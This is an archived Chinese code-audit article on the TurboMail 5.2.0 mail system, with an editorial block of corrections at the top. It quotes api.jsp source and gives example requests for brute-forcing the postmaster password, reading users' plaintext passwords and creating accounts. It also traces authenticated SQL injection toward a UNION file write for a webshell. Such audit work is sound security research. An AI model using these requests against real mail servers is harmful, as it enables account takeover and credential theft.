# 某邮件管理系统代码审计

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：TurboMail邮件系统 5.2.0代码审计
- 文献类型：技术文章（细分类待核）
- 版本、权限及部署边界：标题匿名但源码包名turbomail可定位产品，应明确版本及来源而非笼统某邮件；api.jsp确先校验postmaster密码，属于缺少限速/验证码入口而不是认证绕过，getpassword功能需管理员密码；SQL注入需会话、存在对应功能数据表，UNION写文件还需FILE权限/secure_file_priv和可写可执行路径，不能从MySQL5直接推getshell
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 标题匿名但源码包名turbomail可定位产品，应明确版本及来源而非笼统某邮件
2. api.jsp确先校验postmaster密码，属于缺少限速/验证码入口而不是认证绕过，getpassword功能需管理员密码
3. 管理登录本身是否支持验证码作者未确认，应保留不确定性
4. 创建用户例重复maxsize漏maxmsgs但默认值存在，示例凭据应标实验
5. SQL注入需会话、存在对应功能数据表，UNION写文件还需FILE权限/secure_file_priv和可写可执行路径，不能从MySQL5直接推getshell
6. 关键路由、UNION写文件和读取配置解码只在图片，Markdown未载可检索文本
7. 所谓去掉3D再base解码过度简化编码规则，不能证明所有密码明文可还原
8. 任意文件读取已修复却未给补丁版本/公告，暴力猜测应补速率控制和锁定建议，不能一概称不算漏洞

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文标注出处：<https://mp.weixin.qq.com/s/Ln56NskN7tV5Y48cjkbaOQ>

### 归档技术正文

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/Ln56NskN7tV5Y48cjkbaOQ)

无限制爆破管理员密码
----------

我这里本地搭建的`5.2.0`版本后台貌似只能开启前台用户登录的验证码，管理入口的没找到在哪开启，不过之前在项目上遇到了很多管理入口也是开启验证码的情况，所以这个点还是有价值的～

先看到`api.jsp`，根据注释提示，这是一个管理员操作用户的接口文件

代码量不大，这里直接贴出来，删除注释部分

```
<%@ page contentType = "text/html;charset=utf-8" %>
<%@ page import = "java.util.*" %>
<%@ page import = "java.text.*" %>
<%@ page import = "turbomail.web.*" %>
<%@ page import = "turbomail.util.*" %>
<%@ page import = "turbomail.mime.*" %>
<%@ page import = "turbomail.organization.*" %>
<%@ page import = "java.sql.*" %>
<%@ page import = "java.io.*" %>

<%
 response.setHeader("Cache-Control", "no-cache");
 response.setHeader("Pragma", "no-cache");
 response.setDateHeader("Expires", 0);

 response.setContentType("text/html;charset=UTF-8");
 if(MailMain.m_tmc == null)
  return;
 
 String pwd = request.getParameter("pwd");
 if (pwd == null) {
  pwd = "";
 }

 UserInfo userinfo = new UserInfo();
 userinfo.setUid("postmaster");

 userinfo.is_first = true;
 userinfo.domain = "root";

 userinfo.str_cn = "postmaster" + "@" + "root";

 String strCFPath = MailMain.s_config.getMailDirPath()
   + System.getProperty("file.separator") + "root"
   + System.getProperty("file.separator") + "postmaster"
   + System.getProperty("file.separator") + "account.xml";

 userinfo.account = new UserAccount();
 try {
  if (MailMain.m_tmc.USER_AUTH_TYPE.equals("AUTHCENTER")) {
   userinfo.account.mysqlInit("root", "postmaster", false, "");
  } else {
   userinfo.account.init(strCFPath);
  }
 } catch (Exception e) {
  e.printStackTrace();
  out.write("-3");
  return;
 }

 if (!userinfo.account.checkPassword(pwd)) {
  out.write("-4");
  return;
 }
%>

<%
 String type = request.getParameter("type");
 if (type == null)
  type = "";

 if (type.equals("add")) {
  UserAccount ua = null;

  try {
   String domain = request.getParameter("domain");
   if (domain == null) {
    out.write("3");
    return;
   }

   String username = request.getParameter("username");
   if (username == null) {
    out.write("4");
    return;
   }
   String password = request.getParameter("password");
   if (password == null) {
    password = "";
   }

   String maxsize = request.getParameter("maxsize");
   if (maxsize == null) {
    maxsize = "-1";
   }
   String maxmsgs = request.getParameter("maxmsgs");
   if (maxmsgs == null) {
    maxmsgs = "-1";
   }

   ua = new UserAccount();
   ua.username = new String(username);
   ua.setPassword_sys(password);
   ua.usertype = "U";
   ua.m_domain = new String(domain);
   ua.m_UserProfile = new UserProfile();

   ua.m_UserProfile.first_name = username;

   ua.m_UserProfile.last_name = "";
   ua.m_UserProfile.organization = "";
   ua.m_UserProfile.department = "";
   ua.m_UserProfile.address = "";
   ua.m_UserProfile.city = "";
   ua.m_UserProfile.postalcode = "";
   ua.m_UserProfile.telephone = "";
   ua.m_UserProfile.state_province = "";
   ua.m_UserProfile.country = "";
   ua.m_UserProfile.items = 50;

   ua.enable = "true";
   ua.enable_smtp = "true";
   ua.enable_pop3 = "true";
   ua.enable_imap4 = "true";
   ua.enable_webaccess = "true";
   ua.enable_localdomain = "false";

   ua.max_mailbox_size = Integer.parseInt(maxsize);
   ua.max_mailbox_msgs = Integer.parseInt(maxmsgs);
   int iRet = 0;
   try {
    iRet = ua
      .makeUserAccount(MailMain.i18n_resmgr.m_DefResource);
   } catch (Exception e) {
    e.printStackTrace();
    out.write("1");
    return;
   }

   if (iRet != 0) {
    out.write("1");
    return;
   }

  } catch (Exception ee) {
   ee.printStackTrace();
   out.write("1");
   return;
  }

  out.write("0");
  return;
 } else if (type.equals("delete")) {

  String username = request.getParameter("username");
  if (username == null) {
   out.write("1");
   return;
  }

  String domain = request.getParameter("domain");
  if (domain == null) {
   out.write("2");
   return;
  }
  String[] users = new String[1];
  users[0] = username;
  UserAccountAdmin.deleteUserFromName(domain, users);

  out.write("0");
  return;
 } else if (type.equals("edit")) {
  String username = request.getParameter("username");
  if (username == null) {
   out.write("1");
   return;
  }

  String domain = request.getParameter("domain");
  if (domain == null) {
   out.write("2");
   return;
  }

  UserAccount ua = null;

  ua = UserAccountAdmin.getUserAccount(domain, username);
  ua.m_domain = new String(domain);

  String password = request.getParameter("password");
  if (password == null) {
   password = "";
  }

  ua.setPassword_sys(password);

  String first_name = request.getParameter("first_name");
  System.out.println("first_name:" + first_name);
  first_name = Util.formatRequest(first_name, "iso-8859-1",
    "gb2312");

  ua.m_UserProfile.first_name = first_name;

  int iRet = ua.saveProfile(true, false);

  if (iRet != 0) {
   out.write("3");
   return;
  }

  out.write("0");
  return;
 } else if (type.equals("getnewmsg")) {

  String username = request.getParameter("username");
  if (username == null) {
   out.write("-1");
   return;
  }

  String domain = request.getParameter("domain");
  if (domain == null) {
   out.write("-2");
   return;
  }

  ArrayList hsFolders = MessageAdmin.getFolderList(domain,
    username, 1);
  if(hsFolders == null){
   out.write("0");
   return;
  }
  
  Folder tempFolder = null;
  tempFolder = MessageAdmin.findFolder(hsFolders, "new");
  if(tempFolder == null){
   out.write("0");
   return;
  }
  int iNewMsg = tempFolder.iNewMsg;

  out.write((String.valueOf(iNewMsg)));
  return;
 } else if (type.equals("getpassword")) {

  String username = request.getParameter("username");
  if (username == null) {
   out.write("-1");
   return;
  }

  String domain = request.getParameter("domain");
  if (domain == null) {
   out.write("-2");
   return;
  }

  UserAccount ua = UserAccountAdmin.getUserAccount(domain,
    username);

  String userPwd = "-1";

  if (ua != null) {
   userPwd = ua.getOrgPassword();
  }

  out.write(userPwd);
  return;
 } else if (type.equals("setuserorg")) {

  String useraccount = request.getParameter("useraccount");
  if (useraccount == null) {
   out.write("-1");
   return;
  }
  String org_id = request.getParameter("org_id");
  if (org_id == null) {
   out.write("-2");
   return;
  }
  OrgMain org = OrgMain.getOrgMain();
  Department d = org.findDepartment_uid(org_id);
  String deptfullid = org_id;
  if(d != null)
   deptfullid = d.getFullId();
  OrgUserList oul = OrgUserList.getOrgUserList();
  OrgUser ou = oul.findOrgUser(deptfullid, useraccount);
  int iRet = 0;
  if (ou != null) {
   ou.DepartmentFullId = deptfullid;
   oul.save(); 
  } else {
   iRet = oul.addUsers(deptfullid, useraccount, true);
  }
  out.println(iRet);
  return;
 }
%>  


```

可以看到这里主要是两个代码片段，第一个片段接受`pwd`参数，第二个片段在走完第一个片段后，接受`type`参数再根据参数值判断后续流程，如果不传递该参数则不作其他行为。

第一个代码片段创建了一个用户对象，初始化为`postmaster`用户，这也是系统的内置管理员用户。通过从`strCFPath`(从该用户目录下的`account.xml`里面获取密码) 或者通过`mysqlInit`(从数据库中取出该用户的密码)，并加入用户对象属性中。



继续往下，有一个`userinfo.account.checkPassword(pwd)`方法，如果返回为`False`则输出`-4`，否则不输出内容。这是一个检查密码正确与否的方法，根据不同的加密类型来处理对比密码，会自动判断处理前端传入的明文。

某 mail 大多数管理员会在后台配置要求验证码导致无法暴力破解。而这里就有了一个无限制爆破内置管理员`postmaster`用户的接口了。

第二个代码片段就是已知管理员密码后的一些操作了，比较有意思的是 “获取用户密码” 这个接口

```
/api.jsp?pwd=管理员密码&type=getpassword&domain=域名&username=用户名


```

可以直接获取到用户的明文密码

另外这里也可以直接创建用户

```
/api.jsp?pwd=Qq123456&type=add&domain=ssr.com&username=test123&password=test123&maxsize=99999&maxsize=99999


```



sql 注入
------

这套程序存在大量的 sql 注入，看了下貌似都是基于认证后的。

比如`某mail/scheduler/manager/impl/SchedulerManager.java`

```
 public void del(String scheduleid) {
    Connection conn = null;
    Statement stmt = null;
    String sql = "delete from t_scheduler where f_id=" + scheduleid;
    try {
      conn = SchedulerDB.getConnection();
      stmt = conn.createStatement();
      stmt.executeUpdate(sql);
    } catch (SQLException e) {
      e.printStackTrace();
    } finally {
      SchedulerDB.close(stmt);
      SchedulerDB.close(conn);
    } 
  }


```

直接拼接`scheduleid`，往上跟踪

```
public static void del(boolean bAjax, HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
    MailSession ms = WebUtil.getms(request, response);
    if (ms == null) {
      if (bAjax) {
        AjaxUtil.ajaxFail(request, response, "info.nologin", null);
      } else {
        XInfo.gotoInfo(null, request, response, "info.nologin", null, 0);
      } 
      return;
    } 
    UserInfo userinfo = ms.userinfo;
    if (userinfo == null) {
      if (bAjax) {
        AjaxUtil.ajaxFail(request, response, "info.loginfail", null);
      } else {
        XInfo.gotoInfo(null, request, response, "info.loginfail", null, 0);
      } 
      return;
    } 
    Hashtable<Object, Object> ht = new Hashtable<Object, Object>();
    String id = WebUtil.getParameter(request, true, "id");
    SchedulerManager sm = SchedulerManager.getInstance();
    String guid = WebUtil.getParameter(request, true, "guid");
    try {
      ShareAdmin.delShare("", guid);
      sm.del(id);
      sm.delEventByGuid(id);
      AjaxUtil.ajaxSuccess(request, response, "delsuccess", "", ht);
    } catch (Exception e) {
      e.printStackTrace();
      AjaxUtil.ajaxFail(request, response, "delfail", null);
    } 
  }


```

可以看到注入参数在`id`，没有经过任何处理就进来了，继续往上

直接构造传参即可。

看了下 mysql 的版本为`5.1.45-community`，可以尝试写文件 getshell，但是 JDBC 驱动默认不支持堆叠查询，所以这里只能盲注，没啥太大作用，还需要找一个`select`的语句来执行联合查询来实现 getshell

sql 注入到 getshell
----------------

位置：`某mail/bookmark/manager/impl/BookmarkTreeManagerImpl.java`

```
public BookmarkTree findBookmarkTree(String id) throws SQLException {
    String sql = "select * from t_bookmarktree where f_id=" + id;
    Connection conn = null;
    Statement stmt = null;
    ResultSet rs = null;
    BookmarkTree bookmarkTree = null;
    try {
      conn = BookmarkTreeDB.getConnection();
      stmt = conn.createStatement();
      rs = stmt.executeQuery(sql);
      while (rs.next()) {
        bookmarkTree = new BookmarkTree();
        bookmarkTree.setId(rs.getString("f_id"));
        bookmarkTree.setName(rs.getString("name"));
        bookmarkTree.setUserName(rs.getString("username"));
        bookmarkTree.setDomain(rs.getString("domain"));
        bookmarkTree.setIsLeaf(rs.getString("isleaf"));
        bookmarkTree.setMoveFlag(rs.getInt("moveflag"));
        bookmarkTree.setPid(rs.getString("f_pid"));
      } 
    } finally {
      BookmarkTreeDB.close(rs);
      BookmarkTreeDB.close(stmt);
    } 
    return bookmarkTree;
  }


```

往上跟



继续往上



看了下`t_bookmarktree`列数为 9

直接构造写入即可

